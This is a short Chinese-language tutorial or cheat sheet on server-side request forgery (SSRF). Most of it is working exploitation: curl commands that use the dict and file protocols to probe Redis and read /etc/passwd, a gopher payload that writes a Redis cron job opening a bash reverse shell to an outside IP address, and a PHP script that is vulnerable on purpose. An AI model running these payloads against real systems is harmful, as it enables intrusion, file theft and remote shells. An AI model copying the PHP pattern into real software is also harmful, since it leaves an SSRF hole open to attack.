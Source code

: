 SSRF
####


SSRF(Server-side Request Forge, 服务端请求伪造)。
由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务。

SSRF的危害::

    扫内网
    向内部任意主机的任意端口发送精心构造的Payload
    DOS攻击（请求大文件，始终保持连接Keep-Alive Always）
    攻击内网的web应用，主要是使用GET参数就可以实现的攻击（比如struts2，sqli等）
    利用file协议读取本地文件等

本地漏洞利用::

    # dict protocol (操作Redis)
    $ curl -vvv 'dict://127.0.0.1:6379/info'

    # file protocol (任意文件读取)
    $ curl -vvv 'file:///etc/passwd'

    # gopher protocol (一键反弹Bash)
    # * 注意: 链接使用单引号，避免$变量问题
    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

远程漏洞利用::

    漏洞代码testssrf.php（未作任何SSRF防御）:
    <?php
    function curl($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0); 
        curl_exec($ch);
        curl_close($ch); 
    }
    $url = $_GET['url'];
    curl($url);
    ?>

利用file协议读取文件

.. image:: /images/vulnerabilitys/ssrf_file1.png

利用dict协议查看端口开放

.. image:: /images/vulnerabilitys/ssrf_file1.png








